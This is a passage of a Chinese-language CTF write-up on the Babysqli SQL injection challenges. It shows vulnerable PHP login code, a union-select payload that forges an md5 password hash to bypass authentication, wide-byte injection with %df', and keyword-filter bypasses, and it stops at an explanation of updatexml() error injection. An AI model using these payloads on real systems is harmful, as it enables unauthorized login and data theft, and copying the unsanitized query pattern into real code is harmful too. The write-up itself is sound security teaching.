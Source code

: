 ```php
<?
$name = $_POST['name'];
$passwd = md5($_POST['pw']);

$sql = "select * from user where username = '$name'";
$query = mysql_query($sql);

if (!strcasecmp($passwd, $query[passwd])) {
	echo $flag;
} else {
	echo("Wrong Pass");
}
 ```

将查询出来的passwd和输入的密码的md5值比较，相等则登录成功不相等则返回wrong pass

解题思路是：既然name参数可注，我们可以构造sql语句使其查询为假，然后联合查询出一个比如`e5ff986d9dc5feb884fad249a4dee66d`(binghuang的md5)，然后密码输入`binghuang`，就会查询成功。

但是binghuang的md5肯定不在数据库里，该如何select出来？
很简单，联合查询时，当查询的数据不存在的时候，就会构造一个虚拟的数据来。
测试过程：

```sql
create database test;   #创建一个数据库
use test                #使用test数据库
create table user( id int, username varchar(20), password varchar(20) );  #创建表
select * from user;          #从表中查询所有,发现什么都没有
select * from user where username = '0' and 1=2 union select 0,'admin','123456';  #发现从表中居然返回了数据,因此可绕过
 ```

关于过滤，and可以用大小写绕过，使查询错误时用不等于代替等于即可。
payload：
>name=admin' And 1>2 union select '1','admin','e5ff986d9dc5feb884fad249a4dee66d&pw=binghuang

![avatar](https://k1ng0fic3.github.io/images/sql9.png)

#### 0x01：Babysqli v2.0

一开始发现输入admin和任何密码都会登录成功但是明显没有flag，说明登录成功的不是目标位置。

![avatar](https://k1ng0fic3.github.io/images/sql10.png)

You can really dance~

稍微联想一下就知道了，中文网站 → UTF8 → 宽字节注入，测试%df'发现报错，判断成功：

![avatar](https://k1ng0fic3.github.io/images/sql11.png)

解决方案大概有`updatexml()`报错注入、`floor()`报错注入、布尔盲注等等办法
题中过滤了union、select、where等关键字，双写就可以绕过。

##### `updatexml()`报错注入原理：
>updatexml (XML_document, XPath_string, new_value);
